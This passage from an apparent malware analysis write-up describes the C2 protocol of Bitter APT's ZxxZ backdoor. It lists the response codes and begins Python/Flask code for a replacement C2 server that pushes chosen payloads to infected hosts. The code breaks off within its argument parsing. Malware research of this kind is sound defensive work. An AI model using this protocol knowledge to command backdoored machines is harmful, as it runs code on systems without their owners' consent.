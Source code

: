 It will then sleep for *15* seconds and repeat the loop.

Interestingly, while they *obfuscated* (very poorly) the payload in the network traffic by prepending it with garbage data. They do not follow suit in storing their payloads in any obfuscated way on disk. Which means, they will have to be very careful not to be detected.

##### C2 Responses

At this point we can map out the following C2 responses and their meaning.

| C2 Response | Description                     |
| ----------- | ------------------------------- |
| RNG         | Payload is already running      |
| DN-S        | Payload is executing            |
| S           | Executed payload is running     |
| RN_E        | Executed payload is not running |

##### C2 Server Code

Now that we know everything there is to know about how Bitter APT's ZxxZ backdoor communicates with its C2 server. We can implement our own C2 server to manipulate it to execute our own payloads.

For this we will use [Python](https://www.python.org/) and [Flask](https://flask.palletsprojects.com/en/2.1.x/).

```python
#!/usr/bin/env python

import sys
import os
import logging
import argparse
from flask import Flask
from flask import request

__version__ = '1.0.0'
__author__  = 'c3rb3ru5d3d53c'

parser = argparse.ArgumentParser(
    prog=f'zxxz v{__version__}',
    description='Bitter APT ZxxZ Backdoor C2 Server',
    epilog=f'Author: {__author__}')

parser.add_argument(
    '--version',
    action='version',
    version=f'v{__version__}')

parser.add_argument(
    '-i',
    '--input',
    type=str,
    default=None,
    help='Input Payload',
    required=False)

parser.add_argument(
    '--host',
    type=str,
    default='0.0.0.0',
    required=False,
    help='Listen Host')

parser.add_argument(
```